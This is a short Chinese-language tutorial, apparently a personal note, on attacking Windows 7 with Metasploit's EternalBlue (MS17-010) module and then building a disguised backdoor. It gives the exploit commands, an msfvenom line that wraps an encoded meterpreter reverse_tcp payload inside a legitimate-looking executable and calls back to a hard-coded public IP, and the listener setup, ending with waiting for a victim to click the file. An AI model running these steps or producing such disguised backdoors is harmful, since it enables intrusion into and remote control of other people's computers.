







# msf攻击 windows永恒之蓝

永恒之蓝(ms17_010) 针对2017年以前的Windows漏洞

#### 攻击

虚拟机安装windows7 https://msdn.itellyou.cn/

在kali内`msfconsole`打开msf控制台

```bash
search ms17_010
```

寻找永恒之蓝漏洞工具

> ms17_010 为漏洞编号



输入`use 0` 或者` use exploit/windows/smb/ms17_010_eternalblue `使用攻击模块

使用`options`查看模块选项

`Required`为必填项



输入`set RHOST xxx`为目标ip  



若`Payload options`不为`windows/x64....`,则 `set  payload windows/x64....`

- **LHOST** 本地(kali)IP地址
- **LPORT** 监听端口，不被占用即可 

万事俱备 `run`即可





**攻击成功**

# 生成远程后门木马

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=60.204.131.156 lport=10222 -e x86/shikata_ga_nai -i 5 -f exe -x /test/geek.exe  -o /test/output/geek.exe
```



> linux则将后缀改为elf

#### 监听

`use exploit/multi/handler` 模块

`options` 查看选项



- **LHOST** 是生成exe时指定的`lhost`
- **LPORT** 是生成exe时指定的`lport`
- **payload**是生成exe时指定的`-p xxx`

```bash
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 60.204.131.156 
set LPORT 10222
```

`run`即可，等待生成的exe被点击